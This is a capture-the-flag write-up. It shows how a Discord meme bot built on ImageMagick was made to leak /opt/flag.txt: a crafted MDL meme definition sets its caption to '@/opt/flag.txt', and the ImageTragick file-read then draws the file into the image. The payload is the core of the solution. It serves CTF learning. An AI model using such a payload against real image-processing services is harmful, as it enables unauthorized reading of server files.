


# MDL Considered Harmful

## Problem

There's a bot named MDLChef in the Discord. You need to DM it, it doesn't respond in the server. On its host machine, there's a file at /opt/flag.txt - it contains the flag. Go get it.

Note: This is NOT an OSINT challenge. The source code really isn't available. Good luck.

Author: nb

## Solution

If we use the `/credits` command, we can understand more of the stack.



We can see that ImageMagick is used.

I searched for ImageMagick exploits, and found [https://imagetragick.com/](https://imagetragick.com/).

It appears that if we use `caption:@/path/to/file`, we can read arbitrary files.

```text
{
    version: "MDL/1.1",
    type: "meme",
    base: {
        format: "Meme.Legacy.BadLuckBrian"
    },
    caption: {
        topText: "@/opt/flag.txt",
        bottomText: "image tragick"
    }
}
```

The rendered image contains the flag:



